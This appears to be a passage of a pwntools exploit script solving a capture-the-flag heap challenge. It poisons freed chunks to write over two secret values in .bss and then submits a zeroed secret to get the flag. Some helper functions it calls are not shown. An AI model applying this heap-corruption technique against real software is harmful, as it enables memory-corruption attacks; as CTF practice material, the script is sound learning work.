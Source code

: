 ```python
def send_flag(secret):
    target.sendlineafter(b": ", b"send_flag")
    target.sendlineafter(b"Secret: ", secret)


def quit():
    target.sendlineafter(b": ", b"quit")


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    secret_p1 = elf.bss() + (0x16364 - 0x8)
    secret_p2 = elf.bss() + 0x16364

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)
    scanf(0, p32(secret_p1))
    # raw_input("DEBUG")
    malloc(0, 0)
    malloc(0, 0)

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)
    scanf(0, p32(secret_p2))
    # raw_input("DEBUG")
    malloc(0, 0)
    malloc(0, 0)

    payload = flat(0, 0)
    send_flag(payload)
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

